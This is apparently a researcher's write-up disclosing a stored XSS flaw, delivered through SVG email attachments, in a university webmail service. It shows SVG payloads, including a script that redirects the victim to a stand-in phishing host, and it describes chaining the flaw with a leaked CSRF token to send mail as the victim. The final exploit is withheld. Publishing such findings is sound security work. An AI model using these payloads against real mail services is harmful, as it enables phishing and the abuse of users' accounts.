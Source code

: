 ## Introduction

I decided to write  a technical write-up about a bug inside the WebMail of "Università degli studi di Milano ".
In this post I will share technical details on the xss vulnerability inside a svg file that could be chained with a csrf. 

## Xss inside svg

First of all I tried to see if there was any input not sanitized properly to try some xss but nothing, so I tried to see how webmail handled svg files with some js inside, sending svg file from my personal email to my university emails and I managed to find something good.


![unimia2](https://user-images.githubusercontent.com/59454895/113420406-90ae8c80-93c9-11eb-9aaf-f9a88da90b17.PNG)
Now I knew the webmail service could handle svg files , once opened the browser parse the malicious code and we can get  the xss :

![Unimia3](https://user-images.githubusercontent.com/59454895/113420875-64474000-93ca-11eb-862a-23930a055a1c.PNG)

It works becase SVG is not a graphical format, but an XML document describing the elements that make up graphics and its additional interactions with the environment. SVG files can be an interactive document, such as HTML and can change depending on pre-programmed actions.
Just like in HTML we have a DOM tree  which is available from JS scripts. Due to the fact that HTML, JavaScript and SVG work in the same ecosystem it's easy to create an SVG file that performs malicious actions in the area of the tested web application.
Also we can see from the response header that the SVG file was interpreted as svg+xml ( there was no httponly flag).

![Unimia4](https://user-images.githubusercontent.com/59454895/113421637-be94d080-93cb-11eb-998e-4eb4d1bfd566.PNG)


The file had the following code :

```xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
    <foreignObject class="node" x="46" y="22" width="200" height="300">
		  <body xmlns="http://www.w3.org/1999/xhtml">
			 <style>
				 h1{color: red}
			  </style>
			  <h1>Open me :)</h1>
	    </body>
   </foreignObject>
  <script type="text/javascript">
	  alert('1');
  </script>
</svg>
```
## Attack scenario
It's possible to trick the user into a pishing page since we can make a redirection where we want with some js  , after the the file has been opened  . It can be done with the following code inside the svg file( or we can trick him to put his credentials.)


```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
             window.location.href="https://www.evilsite.com/";

   </script>
</svg>
```
The worst thing is that the token can be leaked into the attacker's server and is no longer sufficient against csrf attacks. With csrf we can for example send an email to a recipient chosen by us (such as a professor) containing an inappropriate text, without the original user noticing it.

![Unimia4](https://user-images.githubusercontent.com/59454895/113429277-8c3da000-93d8-11eb-9fe2-b8d2018a282c.PNG)

I won't publish the final poc in order to avoid problems :P , but it was very easy to leak the token and execute a good CSRF where an attacker could send an email without the authorization of the owner.
